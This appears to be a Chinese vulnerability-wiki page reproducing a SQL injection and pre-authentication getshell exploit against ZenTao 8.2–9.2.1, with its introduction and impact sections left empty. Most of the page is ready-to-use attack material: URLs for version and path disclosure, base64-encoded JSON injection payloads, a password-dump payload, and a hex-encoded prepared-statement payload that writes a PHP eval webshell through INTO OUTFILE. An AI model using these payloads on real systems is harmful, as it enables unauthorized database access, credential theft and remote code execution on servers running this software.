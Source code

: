 禅道 8.2-9.2.1 注入&getshell
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我这里用的官方集成环境版本8.4

    获取版本号：/index.php?mode=getconfig

![](/Users/aresx/Documents/VulWiki/.resource/禅道8.2-9.2.1注入GetShell/media/rId24.jpg)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![](/Users/aresx/Documents/VulWiki/.resource/禅道8.2-9.2.1注入GetShell/media/rId25.jpg)

没路径的报错exp：

    {"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0=

EXP

    提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：<http://127.0.0.1:81/zentao/>

注入显密码：

    {"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

不知道什么原因，本地复现无账号密码回显。。。

![](/Users/aresx/Documents/VulWiki/.resource/禅道8.2-9.2.1注入GetShell/media/rId27.jpg)

前台GetShell：

    {"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

    select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php'

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

    73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

访问之即可在目录下生成hack.php：

image
